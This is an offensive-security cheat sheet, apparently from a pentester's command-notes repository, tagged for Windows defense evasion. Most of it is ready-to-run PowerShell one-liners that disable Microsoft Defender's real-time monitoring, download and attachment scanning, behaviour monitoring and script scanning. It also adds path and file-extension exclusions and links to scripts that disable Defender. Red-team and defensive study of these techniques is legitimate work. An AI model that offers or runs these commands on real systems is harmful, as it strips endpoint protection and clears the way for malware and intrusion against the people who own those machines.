 # windows
% windows, defense evasion
#plateform/windows #target/local #cat/DEFENSE-EVASION


# pwsh
% windows, defense evasion

#plateform/windows #target/local #cat/DEFENSE-EVASION #tag/powershell 

## knowledge
```powershell
https://github.com/jeremybeaume/tools/blob/master/disable-defender.ps1
https://wirediver.com/disable-windows-defender-in-powershell/
```


## Defender - stop service
```powershell
```

## Defender - disable All

```powershell
Set-MpPreference -DisableRealtimeMonitoring $true; Set-MpPreference -DisableIOAVProtection $true; Set-MPPreference -DisableBehaviourMonitoring $true; Set-MpPreference -DisableScriptScanning $true
```

## Defender - disable Real Time Monitoring 

```powershell
Set-MpPreference -DisableRealtimeMonitoring $true
```

## Defender - Disable scanning for downloaded or attachments

```powershell
Set-MpPreference -DisableIOAVProtection $true
```

## Defender - Disable behaviour monitoring

```powershell
Set-MPPreference -DisableBehaviourMonitoring $true
```

## Defender - Disable AMSI

```powershell
Set-MpPreference -DisableScriptScanning $true
```


## Defender - Add path to exclusions

```powershell
$p = "<path|c:\temp>" ; Add-MpPreference -ExclusionPath $p -AttackSurfaceReductionOnlyExclusions $p
```


## Defender - Add extension to exclusions

```powershell
Set-MpPreference -ExclusionExtension "<extension|ps1>"
```